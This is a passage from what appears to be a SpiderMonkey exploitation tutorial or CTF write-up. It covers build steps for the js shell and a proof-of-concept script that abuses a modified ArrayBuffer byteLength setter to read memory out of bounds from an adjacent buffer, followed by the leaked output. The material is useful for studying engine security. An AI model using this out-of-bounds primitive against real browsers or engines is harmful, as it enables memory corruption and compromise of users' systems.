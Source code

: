 ```
cd build_DBG.OBJ
../configure --enable-debug --disable-optimize
make -j8

cd ..
mkdir build.OBJ
cd build.OBJ
../configure --disable-debug --disable-optimize
make -j8
```

After compiling both versions we can find the `js` executable in both build directories in `dist/bin/`. For debugging I will use gdb with <https://hugsy.github.io/gef/>. Now that we have our environment setup, we can write a simple PoC that does an out-of-bounds read.

We define an ArrayBuffer "A" and use the new `byteLength` setter to put a large value there. We then create another ArrayBuffer "B" just to have an adjacent object in memory (it will be placed exactly next to the first one). Then we create a TypedArray ([https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/TypedArray](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/TypedArray)) from our ArrayBuffer. This is done so we can access the contents of the underlying binary buffer as an array.

Finally, we try to dump the contents of "A" which is only defined up to the 10th iteration (we set the size to 80 – so 10 8-byte values). However, due to our manipulated byte length, we can now print beyond that boundary and dump the memory of the adjacent object "B".

**Poc\_0x01.js**

```js
// create an ArrayBuffer A and set its length to a large value
aBuf = new ArrayBuffer(80);
aBuf.byteLength = 1000;
aBuf = new BigUint64Array(aBuf)
aBuf[0] = 0x4141414141414141n


// create a second ArrayBuffer B to have an adjacent object
bBuf = new ArrayBuffer(80);
bBuf = new BigUint64Array(bBuf)
bBuf[0] = 0x4242424242424242n

// access A as a TypedArray out of bounds to read some metadata/data of B
for(let i=0;i<20;i++){
    console.log(`${i} ${aBuf[i].toString(16)}`)
}
```

Running the PoC shows that we can indeed access beyond the size of the ArrayBuffer and see memory that does not belong to it:

```
spidermonkey/js/src/build_DBG.OBJ/dist/bin/js -i pwn_0x01.js
0 4141414141414141
1 0
2 0
3 0
4 0
5 0
6 0
7 0
8 0
9 0
10 fffe4d4d4d4d4d4d
11 fffe4d4d4d4d4d4d
12 58dcd466700
13 5618d8518088
14 5618d8517828
```